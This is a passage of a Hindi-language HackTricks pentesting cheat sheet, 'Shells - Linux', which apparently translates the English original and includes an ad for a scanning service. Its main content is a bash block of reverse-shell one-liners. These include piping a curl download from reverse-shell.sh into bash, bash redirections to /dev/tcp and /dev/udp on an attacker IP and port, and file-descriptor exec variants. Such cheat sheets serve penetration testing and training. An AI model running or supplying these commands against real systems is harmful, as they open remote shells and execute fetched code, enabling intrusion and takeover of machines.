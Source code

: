 # शेल्स - लिनक्स

<details><summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ हैकट्रिक्स क्लाउड ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 ट्विटर 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ ट्विच 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 यूट्यूब 🎥</strong></a></summary></details>

<figure><img src="/.gitbook/assets/image (675).png" alt=""><figcaption></figcaption></figure>

विशेषता को ध्यान में रखते हुए विकसित करें जो अधिक मायने रखती हैं ताकि आप उन्हें तेजी से ठीक कर सकें। इंट्रूडर आपकी हमला सतह का ट्रैक करता है, प्रोएक्टिव धमकी स्कैन चलाता है, एपीआई से वेब ऐप्स और क्लाउड सिस्टम तक आपके पूरे टेक स्टैक में मुद्दों का पता लगाता है। [**इसे मुफ़्त में आज़माएं**](https://www.intruder.io/?utm\_source=referral\&utm\_campaign=hacktricks)।

{% embed url="https://www.intruder.io/?utm_campaign=hacktricks&utm_source=referral" %}

***

**यदि आपके पास इन शेल्स के बारे में कोई सवाल हैं, तो आप उन्हें** [**https://explainshell.com/**](https://explainshell.com) **के साथ जांच सकते हैं**

## पूर्ण TTY

**एक रिवर्स शेल प्राप्त करने के बाद**[ **पूर्ण TTY प्राप्त करने के लिए इस पेज को पढ़ें**](full-ttys.md)**।**

## बैश | शेल
```bash
curl https://reverse-shell.sh/1.1.1.1:3000 | bash
bash -i >& /dev/tcp/<ATTACKER-IP>/<PORT> 0>&1
bash -i >& /dev/udp/127.0.0.1/4242 0>&1 #UDP
0<&196;exec 196<>/dev/tcp/<ATTACKER-IP>/<PORT>; sh <&196 >&196 2>&196
exec 5<>/dev/tcp/<ATTACKER-IP>/<PORT>; while read line 0<&5; do $line 2>&5 >&5; done

#Short and bypass (credits to Dikline)
(sh)0>/dev/tcp/10.10.10.10/9091
#after getting the previous shell to get the output to execute
exec >&0
```
### सिम्बल सुरक्षित शैल
